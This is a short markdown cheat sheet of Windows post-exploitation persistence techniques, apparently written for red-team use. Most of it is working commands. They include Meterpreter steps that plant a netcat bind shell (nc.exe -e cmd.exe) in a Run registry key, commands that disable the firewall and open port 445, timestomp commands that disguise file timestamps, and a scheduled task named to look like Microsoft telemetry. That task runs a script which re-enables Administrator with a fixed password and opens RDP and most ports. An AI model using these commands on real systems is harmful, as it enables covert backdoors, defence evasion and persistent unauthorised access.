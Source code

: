 # Windows Persistence

**Tips for staying persistent on Windows (Austin Pabst)**

Post exploit netcat Backdoor:

Open meterpreter >
- upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
- reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
- reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 445 -e cmd.exe'
- reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
- execute -f cmd -i

C: Windows\system 32 > 
- netsh advfirewall set allprofiles state off
- netsh advfirewall show allprofiles
- netsh advfirewall firewall add rule name="Open Port 445" dir=in action=allow protocol=TCP localport=445
- netsh firewall show port
- Shutdown -r -t 0

Open New Terminal
- nc -v 10.0.x.8 445

***might work might not***

## Time Stomp in Meterpreter

Credit to Jesse More

This is how you TimeStomp a Windows mahcine with Metasploit Meterpreter.

Check the time stamp of file
`meterpreter> timestomp YOURFILE.exe -v`

Change the time to the CMD.exe time
`meterpreter> timestomp YOURFILE.exe -f C:\\WINNT\\system32\\cmd.exe`


Then validate:
`meterpreter> timestomp YOURFILE.exe -v`


Reference: 
https://www.offensive-security.com/metasploit-unleashed/TimeStomp/


## remote.ps1

(Carl Pearson - INL)

Assuming admin priviliges on compromised host, you can set this script to run at a regular interval to:
- Re-enable the built-in Administrator account (password r3dt34m)
- Allow inbound/outbound TCP/UDP ports 1-64000
- Enable RDP connections

Can run as a scheduled task or however you prefer. For example, running every 5 minutes through Task Scheduler task:

`schtasks /create /ru "NT AUTHORITY\SYSTEM" /tn "Microsoft Telemetry Scheduler" /tr "powershell.exe -executionpolicy bypass C:\path\to\remote.ps1" /sc MINUTE /mo 5`
